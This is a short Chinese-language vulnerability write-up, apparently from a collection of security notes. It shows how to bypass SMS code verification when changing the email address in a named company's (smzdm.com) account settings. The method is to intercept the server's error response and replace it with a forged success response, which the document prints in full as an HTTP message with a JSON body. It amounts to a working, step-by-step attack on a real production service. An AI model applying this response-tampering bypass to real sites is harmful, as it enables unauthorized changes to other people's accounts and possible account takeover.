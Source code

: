 ### 北京值得买科技股份有限公司短信验证码修改响应包绕过

个人中心 -> 账号设置

![](https://pic1.imgdb.cn/item/68afc7f458cb8da5c857bdab.png)

修改邮箱选择手机短信验证，下一步

![](https://pic1.imgdb.cn/item/68afc81158cb8da5c857be41.png)

开启抓包点下一步，验证码随便输入

![](https://pic1.imgdb.cn/item/68afc84458cb8da5c857bf33.png)

错误的响应包内容

![](https://pic1.imgdb.cn/item/68afc84f58cb8da5c857bf67.png)

替换为正确的响应

```apl
HTTP/1.1 200 OK
Date: Mon, 07 Mar 2022 13:03:15 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Vary: Accept-Encoding
Vary: Accept-Encoding
Vary: Accept-Encoding
X-Zhi-Request-Id: 2oO5WGaK-fWPbyjCI-JeA-4Qg1
S-D-S: 0.171
X-Via-JSL: aff1ff7,-
X-Cache: bypass
Content-Length: 132

{"error_code":0,"error_msg":[],"data":[],"goto":"change_email_edit","redirect_to":"https:\/\/zhi
you.smzdm.com\/user\/email\/edit\/"}
```

![](https://pic1.imgdb.cn/item/68afc89858cb8da5c857c031.png)

放包后绕过

![](https://pic1.imgdb.cn/item/68afc8ae58cb8da5c857c034.png)

